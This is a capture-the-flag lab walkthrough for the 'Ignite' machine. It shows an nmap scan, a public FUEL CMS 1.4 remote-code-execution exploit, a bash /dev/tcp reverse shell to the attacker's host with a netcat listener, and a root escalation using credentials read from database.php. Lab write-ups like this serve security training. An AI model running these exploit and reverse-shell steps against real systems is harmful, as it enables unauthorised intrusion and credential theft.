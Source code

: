 # Ignite

I am going to start with a nmap scna:

```bash
nmap -sC -sV 10.10.10.167                                                
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 11:40 EST
Nmap scan report for 10.10.10.167
Host is up (0.057s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.67 seconds
```

We see that it has a web page running on “FUEL CMS”

![Untitled](Ignite%2088fddc3b17754ab58e830bf5d61a5987/Untitled.png)

We see that it’s running version 1.4 which is vulnerable.

From the nmap scan we also know that it has the robots.txt and fuel directories:

```bash
User-agent: *
Disallow: /fuel/
```

![Untitled](Ignite%2088fddc3b17754ab58e830bf5d61a5987/Untitled%201.png)

Now I am going to use an exploit that works with fuel cms 1.4:

[https://www.exploit-db.com/exploits/50477](https://www.exploit-db.com/exploits/50477):

```bash
python3 50477.py -u http://10.10.10.167/     
[+]Connecting...
Enter Command $whoami
systemwww-data
```

Ok now I am going to start a proper reverse shell.

`bash -i >& /dev/tcp/10.11.65.91/4444 0>&1`

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.113.174] 34452
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

From there I just searched the web directory, and found the config folder.

In there there was a file named database.php, which contains the root credentials

```bash
su root
Password: 

root@ubuntu:/var/www/html/fuel/application/config# whoami
root
```